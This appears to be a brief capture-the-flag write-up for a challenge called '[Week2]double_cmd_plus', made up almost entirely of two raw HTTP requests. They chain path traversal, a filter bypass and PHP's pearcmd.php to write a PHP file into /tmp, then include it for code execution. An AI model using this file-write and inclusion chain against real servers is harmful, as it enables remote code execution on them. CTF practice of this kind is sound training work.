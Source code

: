 ## [Week2]double_cmd_plus

```
POST /index.php?+config-create+/&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1

cmd=flflagag/../../../../../../../../../../../../usr/local/lib/php/pearcmd.php
```


```
POST /index.php HTTP/1.1

cmd=flflagag/../../../../../../../../../../../../tmp/hello.php
```

然后去包含就可以了